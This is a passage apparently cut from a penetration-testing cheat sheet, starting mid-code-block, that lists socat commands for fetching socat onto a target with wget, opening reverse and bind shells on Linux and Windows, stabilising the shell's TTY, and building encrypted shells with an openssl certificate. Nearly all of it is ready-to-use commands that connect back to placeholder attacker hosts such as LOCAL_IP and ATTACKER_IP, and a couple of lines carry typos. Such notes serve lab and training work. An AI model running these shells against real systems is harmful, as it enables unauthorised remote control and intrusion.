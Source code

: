     #on target machine
    wget LOCAL_IP/socat -O /tmp/socat
    ```

* Socat:

  * Connecting to a shell:

    ```shell
    #reverse shell listener
    socat TCP-L:443 - #where 443 is port number

    #on Windows, to connect back
    socat TCP:LOCAL_IP:LOCAL_PORT EXEC:powershell.exe,pipes

    #on Linux, to connect back
    socat TCP:LOCAL_IP:LOCAL_PORT EXEC:"bash -li"


    #bind shells
    #on Linux
    socat TCP-L:443 EXEC:"bash -li"

    #on Windows
    socat TCP-L:443 EXEC:powershell.exe,pipes

    #on attacking machine, to connect to listener
    socat TCP:TARGET_IP:TARGET_PORT -
    ```

  * Socat shell stabilization:

    ```shell
    #for listener
    socat TCP-L:443 FILE:`tty`,raw,echo=0 #passing current TTY as file

    #to activate listener
    socat TCP:ATTACKER_IP:ATTACKER_PORT EXEC:"bash-li",pty,stderr,sigint,setsid,sane
    #to normalize shell
    ```
  
  * Socat encrypted shells:

    ```shell
    #on local machine
    openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
    #to generate a certificate for encryption

    cat shell.key shell.crt > shell.pem
    #merge files

    #to setup reverse shell listener
    socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -

    #to connect back
    socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash


    #for bind shell target
    socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,cert=shell.pem,verify=0 EXEC=cmd.exe,pipes

